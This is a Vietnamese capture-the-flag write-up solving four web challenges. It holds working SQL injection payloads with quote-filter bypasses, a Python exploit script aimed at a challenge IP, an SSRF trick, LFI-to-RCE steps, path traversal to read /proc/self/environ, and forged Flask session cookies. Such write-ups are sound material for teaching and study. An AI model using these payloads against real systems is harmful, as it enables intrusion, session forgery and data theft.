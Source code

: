 # SHOP CUTIES V3

Sau khi đọc qua source code, thì mình thấy bài này sử dụng concat string trong câu query, nên khả năng cao là dính SQli, ở đây tác giả filter 2 kí tự đó `'` và  `"` 

```
 if (preg_match("/'|\"/", $_POST['username']) || preg_match("/'|\"/", $_POST['password']))
                die("Làm ơn đừng hack 😵😵😵");
            $sql = "select username, path from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
            $sth = $conn->query($sql);
            $sth->setFetchMode(PDO::FETCH_ASSOC);
            if ($sth->rowCount() > 0){
                $row = $sth->fetch();
                {
                    $_SESSION['username'] = $row['username'];
                    $_SESSION['api_path'] = $row['path']; 
                    die(header("location: shopping.php"));
                }
            }
            else {
                $message = "Sai tên và mật khẩu rồi 😅";
            }
```

Ở đây mình sử dụng dấu \ để bypass đoạn check này, `username=blabla\&password=union select 1337,1337 -- -`

Câu truy vấn sẽ thành như sau `select username, path from users where username='blalbal\'&password='union select 1337,1337 -- -`

Lúc này trên server sẽ đọc biến `username=blalbal\'&password=` và câu lệnh union phía sau đã được thi. 

SQLI thành công, nhưng bài này nếu chỉ sqli thì ko đọc được flag.  Vì flag nằm ở path `/flag.php`

Ta nhìn kĩ lại ở dòng này

` $_SESSION['api_path'] = $row['path'];`

Giá trị này sẽ được sử dụng ở file `shopping.php`

`$items = json_decode(file_get_contents(BASE_API_URL . $_SESSION["api_path"] . "/items.json"))->{"msg"};`

Và giá trị `$_SESSION['api_path']` này ta có thể thay đổi dựa vào câu union ở trên. Mục tiêu của ta là đọc được `/flag.php`

Vậy giá trị `$_SESSION['api_path']='@127.0.0.1:32181/flag.php#'` là ta có thể đọc được

Ở đây mình sử dụng 2 function là hex và unhex trong mysql để bypass ", ' vì server không cho sử dụng 2 dấu này

Script để lấy flag 
```
import requests

session = requests.session()
URL = "http://103.245.250.31:32181/login.php"
COOKIES = {"PHPSESSID": "1d6e436162c9045b3d6a42a6dd679c91"}

DATA = {"username": "lol\\", "password": "union select 122,concat(unhex(40),unhex(31),unhex(32),unhex(37),unhex(hex(46)),unhex(30),unhex(hex(46)),unhex(30),unhex(hex(46)),unhex(31),unhex(hex(47)),unhex(66),unhex(hex(108)),unhex(61),unhex(67),unhex(hex(46)),unhex(70),unhex(68),unhex(70),unhex(23))-- -"}
resp = session.post(URL, cookies=COOKIES, data=DATA).text
print(resp)

```


# NO BACKEND 

Bài này mình sài lệnh wget -i URL, để tải hết các file có trên trang web về sau đó sài lệnh grep HCMUS là có flag


# URL Storing 

Bài này dính lỗi LFI ở tham số `page` . Ở đây mình sử dụng php://wrapper để lấy source về. 

Bài này mình sẽ RCE bằng cách chèn một đoạn code php vào `$_POST['url']` nội dung này sẽ được ghi vào file /db/session_id.db. Sau đó gọi đến file này thông qua  lỗi LFI để RCE 


# SECURE NOTE 

Bài này dính lỗi Path traversal , từ đó mình đọc được source code và file /proc/self/environ (chứa secret_key dùng để sign cái session)

```
def waf_filter(s): 
    forbids = ["'", '"', '*', '\\', '/', '#', ';', '--'] 
    for c in forbids: 
        if c in s: s = s.replace(c, '')
    return s
```

![](2022-05-16-15-28-42.png)

Ta sử dụng array là có thể bypass được waf.

Payload bên dưới dùng đề lấy secret_key của admin

`flask-unsign --sign --secret "oHhh_n0000OooooO___YoU_shOUldnt_kn0vv_mY_k3333yyyy" --cookie '{"secret_key":"a7c12766bab05dd16fba6d6d3aee3d23","username":["union select 1,2,3,4,group_concat(secret_key) from users where username=0x61646D696E-- -"]}'`

Có được secret_key thì đọc flag nữa là xong

`flask-unsign --sign --secret "oHhh_n0000OooooO___YoU_shOUldnt_kn0vv_mY_k3333yyyy" --cookie '{"secret_key":"a7c12766bab05dd16fba6d6d3aee3d23","username":"admin"}'`



